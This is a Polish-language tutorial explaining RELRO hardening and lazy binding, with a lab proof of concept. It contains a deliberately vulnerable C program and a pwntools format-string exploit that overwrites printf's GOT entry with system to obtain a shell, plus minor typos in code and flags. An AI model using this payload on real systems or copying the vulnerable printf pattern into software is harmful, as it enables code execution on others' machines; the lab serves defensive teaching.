

# RERLO

### 1. Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielnej zostanie wywołana GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker dostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieją dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest defaultowym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić cała tablice GOT.

W gcc kompiluje się z full RERLO flaga `-z,relro,now`.

### 2. Proof of Concept - got overwrite with format string


Kompilacja:
- **PIE & ASLR**: wyłączone dla stałości adresów
- **RERLO**: wyłączone - idea exploitu.

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32-no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>f 
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyje exploitu typu `format string` ,który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.


Chcę ustalić jak daleko na stosie jest `buf` Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument niż najwyższy używam konstrukcji %3$x.


Bufor znajduję się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.




Teraz moim zadaniem jest skopiować adres system pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyswietlonych pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Adres wysyłam na dwa razy - wypisanie adresu jako liczby w postaci spacji nie jest zbyt dobrym pomysłem.

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.


Jest to prawda.

Pod adres `0x0804c010` chce zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanym przez tag x.

Pod adres `0x0804c012` chce zapisać wyższą cześć adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella - wynika to z konstrukcji programu, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.


Udało się wykonać exploit.

Exploit odpalany z włączonym relro nie daje żadnego skutku - adres got znajduję się w innym miejscu. W przypadku próby nadpisania tego miejsca następuję `SIGSEGV` - chcieliśmy nadpisać sekcje read-only. Kod tego exploitu znajduję się w `exploit1.py`.


### 3. Wnioski

RERLO jest dość prostym mechanizmem obrony przed exploitacją. Chroni przed pewnymi typami ataków i nie jest to opcja, której stosowanie ma sens w przypadku, np. wykonywalnego stosu i wyłączonego ASLR.

Full RERLO jest opcja dość kosztowną i nie powinno się używać jej do aplikacji, które wymagają szybkich czasów startu. Patrial RERLO może i powinno być stosowane defaultowo, bo jest bezproblemowe wydajnościowo, a podnosi bezpieczeństwo.


